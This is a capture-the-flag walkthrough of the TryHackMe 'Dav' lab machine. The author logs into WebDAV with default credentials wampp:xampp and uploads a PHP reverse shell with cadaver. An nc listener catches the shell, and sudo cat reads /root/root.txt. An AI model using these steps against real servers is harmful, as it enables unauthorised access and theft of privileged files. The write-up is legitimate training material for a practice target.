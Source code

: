 # THM - Dav

#### Ip: 10.10.187.168
#### Name: Dav
#### Difficulty: Easy

----------------------------------------------------------------------

![dav.jpeg](../assets/dav_assets/dav.jpeg)

```text
Read user.txt and root.txt
```

### Enumeration

Lets scan the target using Nmap. Here I will use the `-p-` flag to scan all TCP ports, as well as the `-sC` and `-sV` flags to use basic scripts and to enumerate versions:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ sudo nmap -p-  --min-rate 10000 10.10.187.168 -sC -sV
[sudo] password for ryan: 
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-14 11:56 CDT
Nmap scan report for 10.10.187.168
Host is up (0.22s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 21.09 seconds
```

Heading to the site on port 80 we find a default Apache landing page:

![site.png](../assets/dav_assets/site.png)

With a name like Dav, I guessed the machine likely had to incorporate webdav, so I navigated to http://10.10.187.168/webdav/ and was prompted to authenticate.

![login.png](../assets/dav_assets/login.png)

Luckily here I was able to use the default webdav credentials of wampp:xampp and was able to login:

![index.png](../assets/dav_assets/index.png)

There is a password.dav file, but I'm not sure how useful that is to us as we already have working credentials.

### Exploitation

Lets grab a copy of PentestMonkey's php-reverse-shell.php and update our IP and port we'll be listening on:

![php.png](../assets/dav_assets/php.png)

We can then login using cadaver and use the `put` function to load our shell:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ cadaver http://10.10.187.168/webdav/
Authentication required for webdav on server `10.10.187.168':
Username: wampp
Password: 
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
dav:/webdav/> put php-reverse-shell.php
Uploading php-reverse-shell.php to `/webdav/php-reverse-shell.php':
Progress: [=============================>] 100.0% of 5519 bytes succeeded.
dav:/webdav/> ls
Listing collection `/webdav/': succeeded.
        passwd.dav                            44  Aug 25  2019
        php-reverse-shell.php               5519  Sep 14 11:29
Terminated by signal 2.
Connection to `10.10.187.168' closed.
```

We can confirm the shell was uploaded:

![confirm.png](../assets/dav_assets/confirm.png)

And if we click on it we trigger the call back to our listener:

```text
┌──(ryan㉿kali)-[~/THM/Dav]
└─$ nc -lnvp 8888                                      
listening on [any] 8888 ...
connect to [10.2.6.181] from (UNKNOWN) [10.10.187.168] 41040
Linux ubuntu 4.4.0-159-generic #187-Ubuntu SMP Thu Aug 1 16:28:06 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 09:33:14 up 21 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ hostname
ubuntu
$ python -c 'import pty;pty.spawn("/bin/bash")'

www-data@ubuntu:/$
```

From here we can grab the user.txt flag:

![user_flag.png](../assets/dav_assets/user_flag.png)

### Privilege Escalation

Running `sudo -l` we see we have the permissions to use cat and read any file we'd like to on the system:

```text
www-data@ubuntu:/home/merlin$ sudo -l
sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (ALL) NOPASSWD: /bin/cat
```

So we can grab the final flag by running:

```text
sudo /bin/cat /root/root.txt
```

![root_flag.png](../assets/dav_assets/root_flag.png)

You can see in the screen shot above I tried to access a few other files in order to get an actual shell as root, rather than just grabbing the flag, but had no luck. 

I couldn't recall having ever seen a (!) character in place of the root password hash in the `/etc/shadow` file before, but apparently that means the password is locked, which led me to believe this was as far as I was getting in the challenge.

![locked.png](../assets/dav_assets/locked.png)

Thanks for following along!

-Ryan
